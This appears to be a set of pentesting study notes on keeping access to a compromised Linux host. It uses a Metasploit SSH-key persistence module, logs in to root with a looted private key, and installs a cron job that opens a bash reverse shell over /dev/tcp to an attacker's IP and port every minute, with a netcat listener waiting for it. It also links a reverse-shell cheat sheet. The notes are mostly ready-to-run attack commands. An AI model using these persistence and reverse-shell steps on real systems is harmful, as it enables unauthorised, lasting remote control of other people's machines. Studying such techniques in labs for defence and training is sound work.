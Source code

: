 # Via SSH keys:

- post/linux/manage/sshkey_persistence (needed elevated privs, check rootkit for privesc)
	- set CREATESSHFOLDER true
	- check loot, copy the key and save it as a new file and do these -
	- chmod 0400 ssh_key
	- ssh -i ssh_key root@192.182.80.3
- id_rsa : pvt key
- authorized_keys: list of pub keys authorized to access server.
- login with pvt key: ssh -i <pvt_key> <user>@<target_ip>
	
# Using Cron Jobs:

- ps -eaf | grep cron : see if cron service is running
- create netcat listener on attacker machine.
- create cronjob on target machine. 
- echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'" > cron
- crontab -i cron : This adds the cron file to the cron tab
- crontab -l : This lists the cron jobs in the cron tab
- Set up nc lister and wait from the cron job to run


- Another Way: serve http server using python

￼![persistence](./images/lin-persist-01.png)

- cheatsheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
